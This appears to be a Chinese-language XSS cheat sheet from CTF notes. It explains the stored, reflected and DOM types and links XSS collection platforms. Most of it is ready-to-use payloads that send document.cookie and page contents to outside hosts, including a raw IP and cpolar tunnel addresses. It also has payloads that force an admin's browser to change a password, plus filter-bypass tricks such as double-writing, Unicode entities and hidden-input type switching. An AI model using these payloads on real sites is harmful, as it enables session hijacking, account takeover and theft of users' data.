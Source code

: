 [XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=register)
[xsshs.cn](https://xsshs.cn/)
bluelotus

### 存储型
存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie

### 反射型
非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息

### DOM型
不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS

## 常用语句
<script>alert("1")</script>

'onclick='javascript:alert(1)' ('onclick=javascript:alert(1)//)：作为元素对象属性
onfocus
onblur

"><a href='javascript:alert(1)'>xss</a>//

# 外带
```
攻击者通常会利用已经存在的 XSS 漏洞，在受害者的浏览器上注入恶意代码，并将受害者的 Cookie 数据上传到攻击者控制的服务器上，然后攻击者就可以使用该 Cookie 来`冒充受害者`，执行一些恶意操作，例如盗取用户的账户信息、发起钓鱼攻击等。

<script>
var img=document.createElement("img"); img.src="http://118.31.168.198:39543/"+document.cookie;
</script>


<script>window.open('https://7dc5fa72.r7.cpolar.top/platform/?cookie='+document.cookie)</script>

<script>location.href='http://185313a9.r1.cpolar.top/platform/'+document.cookie</script>

<svg onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<iframe onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)"></iframe>

<body onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<body οnlοad="window.location.href='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie"></body>

<BODY ONLOAD=document.location='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie;>

<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://4b467a9c.r9.cpolar.top/platform/?cookie='+document.cookie); >


（需根据实际情况增加?cookie=",因为需要传参正确）




以上为获取cookie

<script>window.open('https://185313a9.r1.cpolar.top/platform/?'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

<script>$('.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctf'+'show{')>-1){
        window.location.href='http://ip/a.php?cookie='+value.innerHTML; 
    }
});</script>

<script>
var img = new Image();
img.src = "http://your-domain/cookie.php?cookie="+document.querySelector('#top > div.layui-container > div    :nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;//问了师傅才知道这个标签是可以通过浏览器找到的，ttttqqqqll
document.body.append(img);
</script>


还有innerHTML和outerHTML的区别
1）innerHTML:
　　从对象的起始位置到终止位置的全部内容,不包括Html标签。
2）outerHTML:
　　除了包含innerHTML的全部内容外, 还包含对象标签本身。

```

# 存储型
```
注意：有些时候网页收到污染就无法继续进行，

通过外带获得Cookie，然后进行admin伪造，从而获得管理员权限

抓取到cookie会立刻失效，于是我们需要获得网页的内容

当有修改密码或其他操作时，可以考虑内网SSRF，

例：
修改密码时的url为/api/change.php?p=123，而修改的账户已经完成了登录，所以可以直接修改

于是可以用下面的payload进行修改密码：

<script>window.location.href='http://127.0.0.1/api/change.php?p=密码';</script>（GET）

POST：
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123',a:1}});</script>

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=1234567');</script>

```

# 常见过滤手段

**空格过滤**
```
可用
TAB（拿%09的url解码得到的TAB来过滤,或者直接用tab键）
/
/**/

xss这个词有时候也会被过滤
```

![](xss-1.png)
#### 直接用"><script>alert("1")</script>构造闭合

![](xss-2.png)
看到使用了htmlspecialchars方法，htmlspecialchars是将特殊符号转换成HTML实体。HTML为了防止特殊符号，如 "<"等html当成标签<br>
这时候我们的思路就尽量要绕开使用新标签，那么浏览器还有一些事件可以执行js代码，如onfocus，onblur，(onclick)但是这两个是属于输入框在光标进入/离开时调用后面的js代码<br>
且需要闭合前面的单引号（也有可能是双引号）

![](xss-3.png)
可以使用a标签来绕过

### 大小写绕过
strtolower():将全部换为小写，无法使用大小写绕过

### 双写绕过
![](xss-4.png)
因过滤成“”，所以可以使用双写绕过
" oonnfocus=javascscriptript:alert('xss')//
"><scscriptript>alert("xss")</scscriptript>//
"> <a hhrefref=javascscriptript:alert('xss')>xss</a>//

### Unicode编码绕过
![](xss-5.png)
href在调用openurl传参时会自动进行unicode解码
javascript:alert(1)
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#10;

### hidden绕过
用于没有输入框情况，把原来的hidden类型改为text类型，从而实现添加属性
t_link=" type='text'>//&t_history=" type='text'>//&t_sort=" type='text'>//
t_sort=" type='text' onclick='javascript:alert(1)'//

## referer绕过

![](xss-6.png)
打开网站后，发现t_ref中内容为上一个网站的内容，于是想到使用referer伪造

## 获取cookie

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

